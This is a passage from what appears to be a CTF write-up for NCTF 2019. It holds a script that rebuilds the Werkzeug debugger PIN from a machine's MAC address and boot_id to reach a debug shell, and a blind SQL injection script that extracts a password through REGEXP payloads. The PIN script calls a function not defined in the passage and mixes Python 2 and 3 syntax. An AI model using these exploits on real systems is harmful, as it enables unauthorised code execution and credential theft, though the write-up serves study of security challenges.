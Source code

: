 ```python
    h = hashlib.md5()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode('utf-8')
        h.update(bit)
    h.update(b'cookiesalt')

    num = None
    if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

    rv =None
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                            for x in range(0, len(num), group_size))
                break
        else:
            rv = num

    return rv
# 02:42:ac:16:00:02  /sys/class/net/eth0/address
# 21e83dfd-206c-4e80-86be-e8d0afc467a1  /proc/sys/kernel/random/boot_id

def getcode(content):
    try:
        return re.findall(r"<pre>([\s\S]*)</pre>",content)[0].split()[0]
    except:
        return ''
def getshell():
    print genpin("02:42:ac:16:00:02","8657e88ac278e9225ba324bb8033ca3398c16c7b517417b55c1f164e90d97a46")

if __name__ == '__main__':
    print(getshell())

```
### SQLi
原题,使用REGEXP正则
```python
import requests

url = "http://nctf2019.x1ct34m.com:40005/index.php"
flag = ""
k = 0
list = "qwertyuiopasdfghjklzxcvbnm_0123456789"
while True:
    k+= 1
    print k,
    for i in list:
        p = len(requests.post(url,data={
            "passwd":"""||passwd/**/REGEXP/**/"^\\{}";\x00""".format(flag+i),
            "username":'\\'
        }).text)
        if p == 48:
            # print chr(i)
            flag += i
            print flag
```